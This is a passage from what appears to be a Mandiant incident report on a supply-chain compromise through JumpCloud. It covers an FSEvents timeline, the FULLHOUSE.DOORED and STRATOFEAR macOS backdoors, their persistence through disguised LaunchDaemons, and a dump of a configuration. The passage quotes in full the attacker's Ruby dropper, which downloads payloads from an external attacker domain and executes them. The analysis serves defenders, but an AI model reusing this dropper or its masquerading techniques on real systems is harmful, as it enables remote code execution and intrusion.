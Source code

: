 the existence of these files remained. Using the node_id field associated with individual entries, Mandiant was able to identify the order of specific threat actor activities on systems and the updated names of renamed files.  The following table provides an example of the relevant data obtained from FSEvents:node_idfullpathDescription53789510/Library/Ruby/Gems/2.6.0/extensions/init.rbRuby script53789519/usr/local/bin/com.docker.vmnatFULLHOUSE.DOORED53789522/usr/local/bin/com.docker.vmnat.lockNot recovered54101444/Library/Fonts/ArialUnicode.ttf.md5STRATOFEAR (Config)54102142/Library/PrivilegedHelperTools/com.microsoft.teams.TeamsDaemonSTRATOFEAR54102142/Library/PrivilegedHelperTools/us.zoom.ZoomServiceSTRATOFEAR54102303/Library/LaunchDaemons/com.microsoft.teams.TeamsDaemon.plistSTRATOFEAR (LaunchDaemon)54212385/Library/LaunchDaemons/us.zoom.ZoomService.plistSTRATOFEAR (LaunchDaemon)Backdoor PayloadsInitial AccessInitial access was gained by compromising JumpCloud and inserting malicious code into their commands framework. In at least one instance, the malicious code was a lightweight Ruby script that was executed via the JumpCloud agent. The script contained instructions to download and execute a second stage payload. Within 24 hours of gaining initial access to systems in the victim environment, the threat actor deployed additional backdoors and established persistence via plists. The initial payloads and second stage backdoors were removed from the system. The directory choices and naming conventions of the Ruby script and second stage payloads indicated the threat actor placed significant priority into masquerading as legitimate files and applications. Mandiant retrieved the lightweight Ruby script named init.rb that was deployed to multiple systems:require 'open-uri'ffn = '/usr/local/bin/com.docker.vmnat' File.open(ffn, 'wb') do |file|file.write(open('hxxps://primerosauxiliosperu[.]com/lic.dat').read)endsleep(1)File.chmod(0755, ffn)fn = '/usr/local/bin/com.docker.vmnat.lock' File.open(fn, 'wb') do |file|file.write(open('hxxps://primerosauxiliosperu[.]com/lic_bak.dat').read)endsleep(1)system(ffn)The script downloads two files to locations defined by the variables ffn and fn, but only the first file is executed via the system function. The second file could not be identified on the hosts.FULLHOUSE.DOORED (com.docker.vmnat, npx-cli, us.zoom.ZoomUpdate)The threat actor downloaded and executed /usr/local/bin/com.docker.vmnat using the aforementioned Ruby script. However, com.docker.vmnat was removed from the system. Fortunately, an artifact of its execution was discovered in the /private/var/db/oah directory. Because com.docker.vmnat was likely compiled for x86-64 systems, the code had to be translated to ARM64 to successfully execute on the target system. As a result, Apple’s Rosetta 2 translator produced a com.docker.vmnat.aot file under the oah directory that included the translated ARM64 code as well as symbols present in the original com.docker.vmnat application. Based on these symbols, Mandiant assesses with moderate confidence that com.docker.vmnat was a version of the FULLHOUSE.DOORED backdoor. FULLHOUSE.DOORED is a backdoor written in C/C++ that communicates using HTTP. It incorporates the capabilities of the FULLHOUSE tunneler in addition to supporting backdoor commands including shell command execution, file transfer, file management, and process injection. The command and control (C2) server must be configured from either the command line or a configuration file.Additional attacker backdoors identified on systems with names that masquaraded as legitimate binaries and also produced AOT files upon translation (e.g., npx-cli and npx-cli.aot).STRATOFEAR (com.google.kservice, us.zoom.ZoomService)Limited forensic evidence existed to determine exactly how STRATOFEAR was deployed to systems in the victim environment; however, in each instance, STRATOFEAR was preceded by the deployment of FULLHOUSE.DOORED. On the systems analyzed, only one backdoor remained on the system, indicating the threat actor may have used FULLHOUSE.DOORED as a first-stage backdoor before deploying STRATOFEAR as a second-stage backdoor.STRATOFEAR is a modular backdoor that communicates with C2 servers using a protocol specified in its C2 configuration, which is decrypted from a local file. The backdoor’s primary functionality involves retrieving and executing additional modules. Modules may be downloaded from a remote server or loaded from disk. STRATOFEAR contains an embedded configuration that includes two file paths. The first path (/Library/Fonts/ArialUnicode.ttf.md5) stores the backdoor’s full configuration, including its C2 servers. The second path (/Library/Fonts/ArialUnicode.ttf.md5.1) may be used to store logging information related to monitor activity that is described as follows.A portion of STRATOFEAR’s 0x1052-byte decrypted configuration is shown as follows.00000410  25 63 01 00 00 00 E8 03 00 00 03 00 00 00 02 00  %c....è.........00000420  00 00 65 6D 62 65 64 3A 2F 2F 30 00 00 00 00 00  ..embed://0.....00000430  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000440  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000450  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000460  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000470  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000480  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................00000490  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................000004A0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................000004B0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................000004C0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................000004D0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................000004E0  00 00 00 00